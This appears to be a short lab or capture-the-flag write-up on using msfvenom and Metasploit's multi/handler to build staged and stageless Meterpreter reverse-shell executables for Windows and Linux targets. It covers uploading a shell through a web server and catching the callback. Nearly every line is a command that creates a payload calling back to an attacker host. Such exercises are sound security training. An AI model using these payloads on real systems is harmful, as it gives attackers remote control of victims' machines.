 ```
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=<tun0-ip> LPORT=2020
```

`upload the shell.exe via upload in web server`

`run 'msfconsole' in attacker's terminal`

`'run multi/handler'`

```
set LHOST=<tun0-ip> ,set LPORT=2020 , set payload to 'windows/x64/meterpreter/reverse_tcp'
```
`exploit`


11. Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with netcat -- does this work?

--> No, not getting any shell, but we get connected to linux/windows trgt.


For Windows,
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o stagedcmd.exe LHOST=<tun-0-ip> LPORT=4444
```
```
msfvenom -p windows/x64/meterpreter_reverse_shell -f exe -o nonstagedcmd.exe LHOST=<tun0-ip> LPORT=4444
```
All these binaries are present in the `Windows_.... folder`

For Linux,
```
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o stagedshell LHOST=10.8.112.253 LPORT=4444
```
```
msfvenom -p linux/x64/meterpreter_reverse_tcp -f elf -o nonstagedshell LHOST=10.8.112.253 LPORT=4444
```
#### NOTE:
> I have took ELF executable, as we can't make exe file with these elf based payload

All these binaries are present in the `Linux_.... folder`

But I can get shell on `exploit/multi/handler`


